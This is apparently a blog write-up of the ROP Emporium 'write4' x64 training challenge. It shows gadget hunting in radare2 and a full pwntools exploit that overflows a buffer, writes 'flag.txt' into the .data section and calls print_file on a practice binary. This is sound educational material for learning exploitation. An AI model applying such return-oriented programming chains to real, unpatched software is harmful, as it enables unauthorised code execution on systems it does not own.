 ```yaml
---
layout: post
title:  "ROP Emporium write4 Writeup (x64)"
date:   2024-06-04 13:15:45 -0400
categories: rop-emporium challenge-4
tags: rop-emporium write4 x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[fourth challenge](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

According to the
[challenge page](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `print_file()` with the name of the
file to read as the first argument. The string `flag.txt`
doesn't exist in the binary, so we will need to write it
there ourselves!

> This is what a hint will look like!
{: .prompt-tip }

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to find this value see the
[first writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}
for this series.

### Write Gadget
> Check out `usefulFunction`'s assembly
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. We will need to write `flag.txt` to
memory so let's check the `usefulGadgets` section
in `usefulFunction`
We can view the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful gadgets](/images/write4/x64-useful-gadgets.png)

The `mov` instruction will set the value from
`r15` (8 byte qword) into the dereferenced address 
set in `r14`. This is what we'll use to write to memory!
The gadget address is `0x00400628`

### Mov Arguments
> Find a gadget to control `r14` and `r15` along with
> a writable program segment
{: .prompt-tip }
Now we need to find a gadget which can control `r14` and
`r15` to control what to write and where to write it. We
can use the `/R` command to search for gadgets
```
/R pop r14
```

![mov args gadget](/images/write4/x64-mov-args-gadget.png)

There are a few which come up but might as well use
this one. Remember we can control where we jump so we
can skip the `pop rbp` instruction entirely! The address
we'll use to set `r14` and `r15` is `0x0x00400690`

Now that we can control where to write and what to write,
where and what should we write? We want to open `flag.txt`
so we'll set that into `r15`. But we need to find a
suitable location to write to. We can view writable
sections with the command `iS`

![writable sections](/images/write4/x64-writable-sections.png)

We need to find a section with the `w` permission and a
size of at least 8 bytes (0x08). Let's use the `.data`
section which has the address `0x00601028`

The python code to write data to an address looks
like this
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x00400628   # mov qword [r14], r15
pop_r14_r15 = 0x00400690
data_addr = 0x00601028

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 8 bytes of a string
    for i in range(0, len(s), 8):
        # address to write to
        r14 = p64(addr + i)

        # prevent slice out of bounds
        j = i+8
        if j >= len(s):
            j = len(s)

        # 8 bytes to write
        r15 = p64(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p64(pop_r14_r15)
        payload += r14
        payload += r15

        # write bytes
        payload += p64(write_gadget)
    return payload
```

### print_file()
> Find the `print_file` address and a gadget which
> sets the `rdi` register
{: .prompt-tip }

First let's find the address of `print_file()` using
the command `afl`

![print-file-addr](/images/write4/x64-print-file-addr.png)

`print_file` is part of a library so we can just use the
address of corresponding `plt` entry, `0x00400510`

Now we need to set the first argument to this function.
According to the
[x64 calling convention](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf){:target="_blank"}{:rel="noopener noreferrer"},
the first argument of a function is passed through the `rdi`
register. Let's find a gadget to control it

```
/R pop rdi
```

![rdi-addr](/images/write4/x64-rdi-addr.png)

Perfect! Our gadget address is `0x00400693`

## Exploit
We finally have everything to build the final exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x00400628   # mov qword [r14], r15
pop_r14_r15 = 0x00400690
data_addr = 0x00601028
print_file_addr = 0x00400510
pop_rdi = 0x00400693

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 8 bytes of a string
    for i in range(0, len(s), 8):
        # address to write to
        r14 = p64(addr + i)

        # prevent slice out of bounds
        j = i+8
        if j >= len(s):
            j = len(s)

        # 8 bytes to write
        r15 = p64(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p64(pop_r14_r15)
        payload += r14
        payload += r15

        # write bytes
        payload += p64(write_gadget)
    return payload

# create payload
payload = b'A' * 40

# write flag.txt to data section
payload += write_str(data_addr, b'flag.txt')

# call print_file(flag_txt_addr)
payload += p64(pop_rdi)
payload += p64(data_addr)
payload += p64(print_file_addr)

# send payload + receive flag
io = process('./write4')
io.recvline()
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
![flag](/images/write4/x64-flag.png)

## Conclusion
In this challenge we learned how to write arbitrary
data to memory. By this point we should be relatively
comfortable finding and chaining gadgets together. Next
we'll learn how to deal with forbidden characters in
our payload.

[Previous Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (badchars)]({% post_url 2024-06-05-rop-emporium-badchars-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[write4 x86]({% post_url 2024-06-04-rop-emporium-write4-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

